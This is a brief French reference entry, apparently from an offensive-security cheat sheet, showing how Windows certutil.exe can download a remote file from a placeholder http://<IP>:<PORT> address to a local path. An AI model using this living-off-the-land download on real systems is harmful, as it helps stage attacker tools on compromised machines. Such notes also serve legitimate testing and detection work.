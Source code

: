 ```yaml
---
description: Permet de télécharger un fichier distant
---
```


# certutil.exe

```
certutil.exe -urlcache -split -f "http://<IP>:<PORT>/<file>" C:\<PATH>\<FILE>
```

Le répertoire de destination doit exister.

